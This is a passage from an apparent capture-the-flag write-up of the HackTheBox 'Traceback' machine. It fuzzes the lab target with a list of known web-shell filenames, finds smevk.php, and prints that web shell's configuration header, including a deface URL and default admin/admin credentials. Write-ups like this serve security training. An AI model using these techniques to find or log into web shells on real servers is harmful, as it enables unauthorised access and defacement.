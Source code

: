Lets clone the repository and create a file containing all the filenames:
```
$ git clone https://github.com/TheBinitGhimire/Web-Shells
Cloning into 'Web-Shells'...
remote: Enumerating objects: 76, done.
remote: Total 76 (delta 0), reused 0 (delta 0), pack-reused 76
Unpacking objects: 100% (76/76), 1.85 MiB | 1.74 MiB/s, done.
$ cd Web-Shells/
$ ls *.php > shells.txt
```

Now we can use this list to fuzz the website:
```
$ ffuf -c -r -ac -w shells.txt -u http://10.10.10.181/FUZZ
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.181/FUZZ
 :: Follow redirects : true
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 312
 :: Filter           : Response words: 22
 :: Filter           : Response lines: 12
________________________________________________

smevk.php               [Status: 200, Size: 1261, Words: 318, Lines: 59]
:: Progress: [16/16] :: Job [1/1] :: 8 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

Looks like we found one! Let's visit the url:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/traceback/webshell-login.png)

There is a login, let's take a look at the source code of `smevk.php` from the
previously cloned repository:
```php
<?php
/*

SmEvK_PaThAn Shell v3 Coded by Kashif Khan .
https://www.facebook.com/smevkpathan
smevkpathan@gmail.com
Edit Shell according to your choice.
Domain read bypass.
Enjoy!

*/
//Make your setting here.
$deface_url = 'http://pastebin.com/raw.php?i=FHfxsFGT';  //deface url here(pastebin).
$UserName = "admin";                                      //Your UserName here.
$auth_pass = "admin";                                  //Your Password.
//Change Shell Theme here//
$color = "#8B008B";                                   //Fonts color modify here.
$Theme = '#8B008B';                                    //Change border-color accoriding to your choice.
```